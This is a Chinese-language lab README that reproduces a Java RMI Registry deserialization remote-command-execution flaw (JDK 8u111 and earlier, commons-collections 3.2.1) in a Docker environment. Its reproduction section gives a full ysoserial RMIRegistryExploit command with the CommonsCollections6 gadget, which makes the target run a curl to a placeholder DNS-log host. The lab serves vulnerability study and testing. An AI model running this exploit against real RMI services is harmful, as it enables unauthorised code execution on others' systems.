

# Java ≤JDK 8u111 RMI Registry 反序列化命令执行

Java Remote Method Invocation（RMI）是Java中用于远程过程调用的机制。尽管远程绑定通常是被禁用的，但RMI Registry中包含一个可被利用的远程绑定功能。攻击者可以在绑定过程中，通过伪造序列化数据（实现Remote接口或动态代理实现了Remote接口的对象），使Registry在对数据进行反序列化时触发相应的利用链。本环境使用commons-collections:3.2.1进行演示。

参考链接：

- <https://www.rapid7.com/db/modules/exploit/multi/misc/java_rmi_server>
- <https://github.com/frohoff/ysoserial>

## 环境搭建

执行如下命令编译及启动RMI Registry和服务器：

```
docker compose build
docker compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

将`your-ip`替换为你的服务器IP地址，客户端将使用此IP连接服务器。

环境启动后，RMI Registry将监听在1099端口。

## 漏洞复现

使用ysoserial的exploit包中的RMIRegistryExploit进行攻击：

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```



Registry会返回报错，这是正常现象，命令仍会成功执行。
